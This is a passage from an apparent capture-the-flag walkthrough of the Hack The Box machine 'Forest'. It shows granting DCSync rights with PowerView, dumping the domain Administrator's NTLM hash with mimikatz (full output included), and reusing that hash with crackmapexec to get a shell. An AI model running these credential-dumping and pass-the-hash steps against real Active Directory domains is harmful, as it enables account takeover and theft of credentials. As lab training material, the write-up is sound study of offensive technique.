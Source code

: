 Here powershell import powerview.ps1 in the memory and add the "DCSync" like : Add-ObjectACL -PrincipalIdentity svc-alfresco -Rights DCSync
And finally use mimikatz.exe  to dump the hash of the user "ADMINISTRATOR"

```
.\mimikatz.exe "lsadump::dcsync /domain:htb.local /user:administrator" exit

  .#####.   mimikatz 2.2.0 (x64) #18362 Aug 14 2019 01:31:47
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # lsadump::dcsync /domain:htb.local /user:administrator
[DC] 'htb.local' will be the domain
[DC] 'FOREST.htb.local' will be the DC server
[DC] 'administrator' will be the user account

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
User Principal Name  : Administrator@htb.local
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000200 ( NORMAL_ACCOUNT )
Account expiration   : 
Password last change : 9/18/2019 10:09:08 AM
Object Security ID   : S-1-5-21-3072663084-364016917-1341370565-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: 32693b11e6aa90eb43d32c72a07ceea6

mimikatz(commandline) # exit
```

Have the shell with crackmapexec using the NTLM hash from mimikatz:
```
$ crackmapexec 10.10.10.161 -u administrator -H 32693b11e6aa90eb43d32c72a07ceea6
 ```
#### Nota: 

mimikatz dump just the "NTLM" hash, so we have to use (crackmapexec or wmiexec).

secretsdump.py  dump "LM:NTLM"  hash, and we can use pth-wimexe tool to caught a shell. 


